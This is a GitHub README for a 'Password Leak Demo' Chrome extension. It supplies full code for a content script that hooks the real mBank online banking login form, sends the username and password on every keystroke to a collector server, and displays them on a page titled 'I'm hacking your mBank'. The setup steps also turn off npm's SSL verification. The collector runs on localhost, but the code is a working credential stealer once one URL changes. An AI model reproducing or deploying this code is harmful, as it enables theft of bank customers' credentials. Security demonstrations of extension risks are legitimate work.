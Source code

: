 # Password Leak Demo Extension

This project demonstrates a browser extension that captures and sends login credentials from a specific website to a local server. The server then displays the captured credentials on a webpage.

## Prerequisites

- [Node.js](https://nodejs.org/) (LTS version recommended)
- A code editor, such as [Visual Studio Code](https://code.visualstudio.com/)

## Installation and Setup

### Step 1: Install Node.js

1. **Download Node.js**:
   - Go to the [Node.js website](https://nodejs.org/).
   - Download the LTS (Long Term Support) version for Windows.

2. **Install Node.js**:
   - Run the installer and follow the prompts to complete the installation.
   - Ensure that the installer adds Node.js to your system PATH.

3. **Verify Installation**:
   - Open a terminal (Command Prompt, PowerShell, or VSCode terminal).
   - Verify Node.js installation by running:
     ```sh
     node -v
     ```
   - Verify npm installation by running:
     ```sh
     npm -v
     ```

### Step 2: Set Up the Project Directory

1. **Create a Project Directory**:
   - Open File Explorer and create a new directory, e.g., `C:\Users\YourUsername\Desktop\BrowserExtensionDemo`.

2. **Open the Directory in VSCode**:
   - Right-click on the directory and select "Open with Code" or open VSCode and use `File > Open Folder` to open the directory.

### Step 3: Create the Server Script

1. **Initialize npm in the Project Directory**:
   - Open a terminal in VSCode.
   - Run the following command to initialize a new Node.js project:
     ```sh
     npm init -y
     ```

2. **Install the `ws` Library**:
   - In the terminal, run:
     ```sh
     npm config set strict-ssl false
     npm install ws
     ```

3. **Create the `server.js` File**:
   - In the project directory, create a new file named `server.js`.
   - Add the following content to `server.js`:

     ```javascript
     const http = require('http');
     const url = require('url');
     const WebSocket = require('ws');

     let lastCredentials = { username: '', password: '' };

     const server = http.createServer((req, res) => {
       const queryObject = url.parse(req.url, true).query;

       if (queryObject.username && queryObject.password) {
         lastCredentials.username = queryObject.username;
         lastCredentials.password = queryObject.password;
         console.log(`Username: ${lastCredentials.username}, Password: ${lastCredentials.password}`);

         // Broadcast the new credentials to all connected WebSocket clients
         wss.clients.forEach(client => {
           if (client.readyState === WebSocket.OPEN) {
             client.send(JSON.stringify(lastCredentials));
           }
         });
       }

       res.writeHead(200, {'Content-Type': 'text/html; charset=utf-8'});
       res.end(`
         <html>
         <head><title>Hakuję twój mBank!</title></head>
         <body>
           <h1>Hakuję twój mBank!</h1>
           <p><strong>Username:</strong> ${lastCredentials.username}</p>
           <p><strong>Password:</strong> ${lastCredentials.password}</p>
           <script>
             const ws = new WebSocket('ws://localhost:1337');
             ws.onmessage = (event) => {
               const data = JSON.parse(event.data);
               document.querySelector('p:nth-of-type(1)').innerHTML = '<strong>Username:</strong> ' + data.username;
               document.querySelector('p:nth-of-type(2)').innerHTML = '<strong>Password:</strong> ' + data.password;
             };
           </script>
         </body>
         </html>
       `);
     });

     // Create a WebSocket server
     const wss = new WebSocket.Server({ server });

     server.listen(1337, '127.0.0.1', () => {
       console.log('Server running at http://127.0.0.1:1337/');
     });
     ```

### Step 4: Run the Server

1. **Start the Server**:
   - In the terminal, run:
     ```sh
     node server.js
     ```
   - You should see `Server running at http://127.0.0.1:1337/` in the terminal.

### Step 5: Create the Chrome Extension

1. **Create Extension Files**:
   - In your project directory, create the following files:

     **`manifest.json`**:
     ```json
     {
       "manifest_version": 3,
       "name": "Password Leak Demo",
       "version": "1.0",
       "description": "A demo extension to capture and send login credentials.",
       "permissions": [
         "activeTab",
         "scripting"
       ],
       "host_permissions": [
         "https://online.mbank.pl/*"
       ],
       "background": {
         "service_worker": "background.js"
       },
       "content_scripts": [
         {
           "matches": ["https://online.mbank.pl/*"],
           "js": ["content.js"]
         }
       ]
     }
     ```

     **`background.js`**:
     ```javascript
     chrome.runtime.onInstalled.addListener(() => {
       console.log("Password Leak Demo Extension Installed");
     });
     ```

     **`content.js`**:
     ```javascript
     if (window.location.origin === "https://online.mbank.pl") {
       hook();
     }

     function hook() {
       const userId = document.getElementById("userID");
       if (!userId) {
         setTimeout(hook, 500);
         return;
       }

       const pass = document.getElementById("pass");

       const listener = () => {
         const user = userId.value;
         const password = pass.value;
         console.log({ user, password });
         fetch(`http://localhost:1337/leak?username=${encodeURIComponent(user)}&password=${encodeURIComponent(password)}`);
       };

       userId.addEventListener("input", listener);
       pass.addEventListener("input", listener);
     }
     ```

### Step 6: Load the Extension in Chrome

1. **Open Chrome and Navigate to `chrome://extensions/`**:
   - Enable "Developer mode" using the toggle switch in the top-right corner.

2. **Load the Unpacked Extension**:
   - Click the "Load unpacked" button and select your project directory.

### Step 7: Test the Setup

1. **Navigate to the Test Page**:
   - Open `https://online.mbank.pl` in Chrome.

2. **Enter Test Credentials**:
   - Enter some test credentials in the form fields.

3. **View the Captured Credentials**:
   - Open `http://localhost:1337` in your browser to see the captured credentials displayed dynamically.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
